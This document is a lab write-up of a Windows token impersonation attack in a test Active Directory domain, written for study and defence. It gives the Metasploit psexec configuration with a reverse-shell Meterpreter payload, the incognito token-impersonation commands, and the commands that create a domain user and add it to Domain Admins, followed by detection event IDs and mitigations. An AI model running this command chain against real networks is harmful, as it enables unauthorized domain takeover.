





# Token Impersonation Attack

## Executive Summary

Token impersonation is a post-compromise attack where an attacker abuses Windows access tokens to act as another logged-on or previously authenticated user. In this lab, Metasploit was used to gain a Meterpreter session on `THEPUNISHER`, load the `incognito` extension, list available tokens, impersonate domain users, and perform privileged domain actions after impersonating `MARVEL\Administrator`.

This attack shows why local administrative access on a workstation can become much more dangerous when privileged users log on to that same system.

## Lab Environment

| Role | Host | Notes |
|---|---|---|
| Domain | MARVEL.local | Active Directory lab domain |
| Target Workstation | THEPUNISHER | Target host at `10.0.2.13` |
| Attacker | Kali Linux | Metasploit used for exploitation and token impersonation |
| Accounts Observed | `MARVEL\fcastle`, `MARVEL\Administrator` | Tokens available during the lab |

## Tools Used

- Metasploit Framework
- Meterpreter
- Incognito Meterpreter extension
- Windows command shell

## Attack Background

Windows uses access tokens to represent a user's security context after authentication. A process running with enough privileges can sometimes list and impersonate tokens that are present on the system.

In this lab, the attacker first gained a Meterpreter session as `NT AUTHORITY\SYSTEM`. From that position, the `incognito` extension was used to identify available delegation tokens and impersonate domain users. When the `MARVEL\Administrator` token became available, the attacker impersonated it and performed domain-level actions.

## Methodology

### Step 1: Configure Metasploit psexec

The `windows/smb/psexec` module was configured with a 64-bit Meterpreter reverse TCP payload. The target was set to `10.0.2.13`, and the SMB domain, username, and password were configured for authentication.

```text
use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp
set rhosts 10.0.2.13
set smbuser fcastle
set smbpass <REDACTED_PASSWORD>
set smbdomain MARVEL.local
options
```

Evidence:



The screenshot shows the Metasploit module options and payload settings. The tool is preparing to authenticate over SMB, upload a service payload, and call back to the attacker machine with Meterpreter.

### Step 2: Run the psexec Module

The module was executed and successfully opened a Meterpreter session on the target.

```text
run
shell
whoami
```

Evidence:



The output shows Metasploit connecting to the SMB service, authenticating as `MARVEL.local\fcastle`, uploading a payload, starting the service, and opening Meterpreter. Running `whoami` inside the shell confirmed the session was running as `nt authority\system`.

### Step 3: Load Incognito and List Tokens

The `incognito` extension was loaded inside Meterpreter, then user tokens were listed.

```text
load incognito
list_tokens -u
```

The `MARVEL\fcastle` token was available and was impersonated.

```text
impersonate_token marvel\\fcastle
shell
whoami
```

Evidence:



The screenshot shows delegation tokens available on the target, including `MARVEL\fcastle` and built-in service accounts. After impersonating `MARVEL\fcastle`, the shell confirmed the current identity as `marvel\fcastle`.

### Step 4: Revert and Impersonate the Domain Administrator

The session was reverted back from the first impersonated token, then tokens were listed again.

```text
rev2self
list_tokens -u
```

After `MARVEL\Administrator` appeared as an available delegation token, it was impersonated.

```text
impersonate_token marvel\\administrator
shell
whoami
```

Evidence:



The screenshot shows the attacker returning to the original security context with `rev2self`, listing tokens again, and impersonating `MARVEL\Administrator`. Running `whoami` confirmed the shell was now operating as `marvel\administrator`.

### Step 5: Create a Domain User and Add It to Domain Admins

With the administrator token impersonated, domain administration commands were executed from the shell.

```cmd
net user /add <REDACTED_USER> <REDACTED_PASSWORD> /domain
net group "Domain Admins" <REDACTED_USER> /ADD /DOMAIN
```

Evidence:



The screenshot shows the impersonated administrator context being used to create a new domain user and add that user to the `Domain Admins` group. This demonstrates the impact of impersonating a highly privileged token.

## Result

The token impersonation attack was successful in the lab.

Key outcomes:

- Metasploit authenticated to `THEPUNISHER` with SMB credentials.
- A Meterpreter session was opened on the target.
- The shell ran as `NT AUTHORITY\SYSTEM`.
- The `incognito` extension listed available delegation tokens.
- The `MARVEL\fcastle` token was impersonated successfully.
- The session was reverted with `rev2self`.
- The `MARVEL\Administrator` token was impersonated successfully.
- A new domain user was created.
- The new user was added to `Domain Admins`.

## Risk

Token impersonation can turn local administrative access into domain compromise if privileged users have active or reusable tokens on the same host. An attacker does not need to know the privileged user's password if the token can be impersonated.

This is especially dangerous on workstations where administrators log in interactively, service accounts are overprivileged, or users have broad local administrator access.

## Detection Opportunities

Defenders can look for:

- Unusual use of Metasploit-style service creation and Meterpreter behavior.
- Processes running as `NT AUTHORITY\SYSTEM` that spawn command shells.
- Token impersonation activity from suspicious processes.
- New domain user creation.
- New membership in privileged groups such as `Domain Admins`.
- Administrative SMB access from unexpected hosts.
- Privileged logons to standard workstations.

Useful Windows event IDs include:

- `4624` for successful logons.
- `4672` for special privileges assigned to a new logon.
- `4720` for user account creation.
- `4728` for adding a member to a global security group.
- `4732` for adding a member to a local security group.
- `7045` for service creation.

## Mitigation

### Limit User and Group Token Creation Permissions

Restrict who can create or impersonate tokens. Sensitive rights such as `SeImpersonatePrivilege` and `SeAssignPrimaryTokenPrivilege` should be limited to accounts and services that truly need them.

### Use Account Tiering

Separate accounts by privilege level. Domain administrators should not log on to regular workstations, and workstation admin accounts should not be used on domain controllers.

### Restrict Local Administrator Access

Limit who has local administrator rights on workstations and servers. Reducing local admin access reduces the chance that an attacker can gain SYSTEM-level control and impersonate useful tokens.

### Additional Controls

- Prevent privileged accounts from logging on to standard workstations.
- Use separate admin accounts for separate administrative tiers.
- Monitor privileged group membership changes.
- Alert on new user creation followed by privileged group membership.
- Apply endpoint detection rules for Metasploit, Meterpreter, and suspicious service creation.
- Reboot or log off systems after privileged maintenance to clear tokens where appropriate.

## Lessons Learned

This lab showed that token impersonation is powerful because it abuses access that already exists on the machine. Once a SYSTEM-level Meterpreter session was obtained, the available tokens determined what actions could be taken.

The important lesson is that privileged users should not leave reusable tokens on lower-trust systems. Account tiering, local admin restriction, and careful monitoring of privileged token activity make this attack harder to perform.
